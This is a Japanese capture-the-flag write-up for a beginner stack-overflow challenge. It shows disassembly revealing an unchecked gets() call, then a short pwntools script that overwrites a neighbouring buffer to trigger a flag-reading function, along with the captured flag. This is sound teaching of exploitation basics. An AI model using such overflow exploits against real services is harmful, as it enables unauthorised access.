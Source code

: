 # first 

## access

```
nc localhost 4101
```
main関数が定義されているので読む  
read_flagとかいうめっちゃそれっぽいやつもある

```Assembly:main

[0x004010f0]> pdf @main
            ; DATA XREF from entry0 @ 0x401111
┌ 110: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x30
│           ; var char *s2 @ rbp-0xa
│           0x004011ed      f30f1efa       endbr64
│           0x004011f1      55             push rbp
│           0x004011f2      4889e5         mov rbp, rsp
│           0x004011f5      4883ec30       sub rsp, 0x30
│           0x004011f9      488d3d110e00.  lea rdi, str.What_s_your_name ; 0x402011 ; "What's your name?\n> " ; const char *format
│           0x00401200      b800000000     mov eax, 0
│           0x00401205      e896feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x0040120a      488d45d0       lea rax, [s]
│           0x0040120e      4889c7         mov rdi, rax                ; char *s
│           0x00401211      b800000000     mov eax, 0
│           0x00401216      e8b5feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040121b      488d45f6       lea rax, [s2]
│           0x0040121f      4889c6         mov rsi, rax                ; const char *s2
│           0x00401222      488d3dfd0d00.  lea rdi, str.hacked         ; 0x402026 ; "hacked!" ; const char *s1
│           0x00401229      e892feffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
│           0x0040122e      85c0           test eax, eax
│       ┌─< 0x00401230      750a           jne 0x40123c
│       │   0x00401232      b800000000     mov eax, 0
│       │   0x00401237      e89affffff     call sym.read_flag
│       │   ; CODE XREF from main @ 0x401230
│       └─> 0x0040123c      488d45d0       lea rax, [s]
│           0x00401240      4889c6         mov rsi, rax
│           0x00401243      488d3de40d00.  lea rdi, str.Hello__s       ; 0x40202e ; "Hello %s!!\n" ; const char *format
│           0x0040124a      b800000000     mov eax, 0
│           0x0040124f      e84cfeffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00401254      b800000000     mov eax, 0
│           0x00401259      c9             leave
└           0x0040125a      c3             ret

```

rbp-0x30までスタック領域が確保されている  
変数が2つ、[s]と[s2]がある  

What's your name?を出力してる  
gets関数で入力を[s]に読み込んでる
strcmp("hacked!", [s2])してる  
[s2]がhacked!と一致したらread_flag関数が呼び出される  
くらいのことがわかる

read_flag関数を読む
```Assembly:read_flag

[0x004010f0]> pdf @sym.read_flag
            ; CALL XREF from main @ 0x401237
┌ 23: sym.read_flag ();
│           0x004011d6      f30f1efa       endbr64
│           0x004011da      55             push rbp
│           0x004011db      4889e5         mov rbp, rsp
│           0x004011de      488d3d1f0e00.  lea rdi, str.cat_flag.txt   ; 0x402004 ; "cat flag.txt" ; const char *string
│           0x004011e5      e8a6feffff     call sym.imp.system         ; int system(const char *string)
│           0x004011ea      90             nop
│           0x004011eb      5d             pop rbp
└           0x004011ec      c3             ret

```

``system("cat flag.txt")``するだけ  
この関数を呼び出せばflagに近づける...かも？

read_flag関数を起動するにはmainの[s2]をhacked!必要がある  
けどプログラム内で書き換えてそうなところがない...?

main関数の変数は、
```
; var char *s @ rbp-0x30
; var char *s2 @ rbp-0xa
```
[s]はrbp-0x30、[s2]はrbp-0xaのようにスタックが確保されているので、  
[s]に0x26バイト分にhacked!を続けた入力をすればスタックオーバーフローするかもしれない  

```python:solve.py
from pwn import *

io = remote('localhost', 4101)
io.sendline('A'*0x26 + 'hacked!')
io.interactive()
```

```
[vagrant@fedora32 first]$ python solve.py
[+] Opening connection to localhost on port 4101: Done
[*] Switching to interactive mode
What's your name?
> flag{Y0u_kn0w_st4ck_0v3r_wr1t3}
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAhacked!!!
```

できた!